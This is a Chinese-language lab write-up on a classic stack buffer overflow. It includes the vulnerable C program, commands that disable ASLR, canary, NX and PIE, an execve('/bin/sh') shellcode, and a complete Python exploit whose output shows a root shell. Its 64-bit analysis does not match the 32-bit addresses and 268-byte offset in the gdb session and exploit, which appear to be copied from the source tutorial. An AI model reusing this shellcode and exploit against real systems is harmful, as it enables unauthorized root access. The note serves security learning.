

# 栈溢出学习（一）

此次实验参考https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/

## 经典栈溢出

这次实验是最简单的栈溢出实验，没有任何防护机制。

## 实验环境

Docker中的Ubuntu22.04，Dockerfile来自于CTF-WIKI中的环境配置。[1]

## 漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

分析：当我们输出的字符串大于256字节，覆盖到main函数的返回地址，使其指向我们的shellcode，就可以完成攻击。

## 编译命令

```shell
$echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -fno-pie -no-pie -z execstack -o vuln vuln.c
```

1. 第一条指令是为了关闭ASRL保护机制。其中针对docker环境，回报Read-Only Filesystem的问题，因此我们需要重新起一个环境，使用privileged的来启动镜像，此时/sys目录则为可读写\[2\]\[3\]

   ```c++
   docker run --rm -it --privileged -p 25001:22 pwnenv_ubuntu22
   //原本应该弹出一个shell让我操作的，但是windows上的cmd一直卡住，所以新开console，通过ssh连接进入该环境。
   ssh root@localhost -p 25001
   ```

2. 第二条指令-g产生debug信息，便于接下来使用gdb调试，```-fno-stack-protector```关闭canary保护机制，```-z execstack```关闭NX保护机制，允许在栈上执行代码。```-fno-pie -no-pie```标识关闭PIE保护机制。

## GDB运行程序

```shell
gdb -q vuln
```

运行程序

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:     endbr64 
   0x000000000040115a <+4>:     push   rbp
   0x000000000040115b <+5>:     mov    rbp,rsp 						//前面三句话为管理
   0x000000000040115e <+8>:     sub    rsp,0x110                    //局部变量分配空间
   0x0000000000401165 <+15>:    mov    DWORD PTR [rbp-0x104],edi    //64位系统rdi、rsi为前两个参数
   0x000000000040116b <+21>:    mov    QWORD PTR [rbp-0x110],rsi    //这里把他们放在栈中
   0x0000000000401172 <+28>:    mov    rax,QWORD PTR [rbp-0x110]    //rax为argv
   0x0000000000401179 <+35>:    add    rax,0x8                      //argv + 8 = &argv[1]
   0x000000000040117d <+39>:    mov    rdx,QWORD PTR [rax]          //rdx = argv[1]
   0x0000000000401180 <+42>:    lea    rax,[rbp-0x100]              //rax = rbp - 0x100即buf
   0x0000000000401187 <+49>:    mov    rsi,rdx                      //rsi = rdx = argv[1]
   0x000000000040118a <+52>:    mov    rdi,rax                      //rdi = rax = buf
   0x000000000040118d <+55>:    call   0x401050 <strcpy@plt>        //strcpy(buf, argv[1])
   0x0000000000401192 <+60>:    lea    rax,[rbp-0x100]
   0x0000000000401199 <+67>:    mov    rsi,rax
   0x000000000040119c <+70>:    mov    edi,0x402004
   0x00000000004011a1 <+75>:    mov    eax,0x0
   0x00000000004011a6 <+80>:    call   0x401060 <printf@plt>
   0x00000000004011ab <+85>:    mov    eax,0x0
   0x00000000004011b0 <+90>:    leave  
=> 0x00000000004011b1 <+91>:    ret    
End of assembler dump.
```

shellcode攻击分为以下三步

* 找到buf起始地址到返回地址的空间大小

  经过上面的反汇编代码，我们可以看到buf起始地址在%ebp - 0x110，即256字节的地方。再加上RBP寄存器的大小8字节，一共是264字节。从下图可以看到，在ret指令时，rsp指向的返回地址中为BBBBBBBB，说明我们覆写成功。

  

* 决定覆盖返回地址的新地址，也就是我们shellcode的起始地址

  这个起始地址一般是指向返回地址的esp值+4，需要获取时我们就在ret指令之前打一个断点，然后p指令输出

  ```shell
  (gdb) b *0x08048453			//打断点
  Breakpoint 2 at 0x8048453: file basic_stack_overflow.c, line 9.
  (gdb) run `python -c 'print "A" * 300'`
  The program being debugged has been started already.
  Start it from the beginning? (y or n) y
  
  Starting program: /home/jackson/Program/CTF/Pwn/vuln `python -c 'print "A" * 300'`
  Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  
  Breakpoint 2, 0x08048453 in main (argc=1094795585, argv=0x41414141)
      at basic_stack_overflow.c:9
  9	}
  (gdb) p $esp
  $1 = (void *) 0xbffff55c
  (gdb) 
  ```

  可以看到指向return address的栈指针为0xbffff55c，因此我们设置新的地址的值可以是0xbffff560，实际上gdb调试的地址和真实运行时的地址是不一样的，参见https://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html

* shellcode的编写

  本次shellcode实现```execv('/bin//sh')的函数

  ```assembly
  0:  31 c0                   xor    eax,eax
  2:  50                      push   eax
  3:  68 2f 2f 73 68          push   0x68732f2f	//'//sh'
  8:  68 2f 62 69 6e          push   0x6e69622f	//'/bin'
  d:  89 e3                   mov    ebx,esp
  f:  50                      push   eax
  10: 89 e2                   mov    edx,esp
  12: 53                      push   ebx
  13: 89 e1                   mov    ecx,esp
  15: b0 0b                   mov    al,0xb
  17: cd 80                   int    0x80
  ```

## 开始Exploit

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       #记得修改为自己的
              
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"		#就是我们上面的汇编代码的机器码

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# buf = Junk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行效果如下：

```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���

# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```


## 参考

[1] https://ctf-wiki.org/pwn/linux/user-mode/environment/#docker-ctf-pwn

[2] https://stackoverflow.com/questions/35893472/how-to-disable-linux-space-randomization-via-dockerfile

[3] https://security.stackexchange.com/questions/214923/disable-aslr-inside-docker-container